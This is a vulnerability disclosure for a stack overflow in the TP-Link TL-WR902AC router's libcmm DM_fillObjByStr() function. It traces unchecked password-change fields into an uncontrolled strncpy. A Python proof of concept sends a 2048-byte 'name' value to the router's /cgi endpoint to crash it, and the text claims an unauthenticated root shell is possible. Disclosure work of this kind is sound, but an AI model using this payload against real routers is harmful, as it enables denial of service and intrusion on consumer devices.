





# TP-Link TL-WR902AC stack overflow vulnerability

## Overview

- Address of domestic vulnerability database to be submitted：https://www.cnvd.org.cn/
- Manufacturer's website information：https://www.tp-link.com/us/
- Firmware download address ： https://www.tp-link.com/us/support/download/
- Manufacturer's safety feedback address：https://www.tp-link.com/us/press/security-advisory/

Note: it has been confirmed to the official that the official website is the latest firmware and there are no other patch firmware. This vulnerability affects the latest version, as shown in the figure.



1. ## Affected version

Note: it has been confirmed to the official that the official website is the latest firmware and there are no other patch firmware


## 2. Vulnerability details

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()。



Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.



Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.


Figure 4 overflow position and crash position



Figure 5 controllable copy length


Figure 6 local variable overflow size

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use fat simulation firmware tl-wr902acv3_ US_ 0.9.1_ 0.2. bin
2. Attack with the following POC attacks

```
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text

```

The reproduction results are as follows:


Figure 7 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell, and do not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)



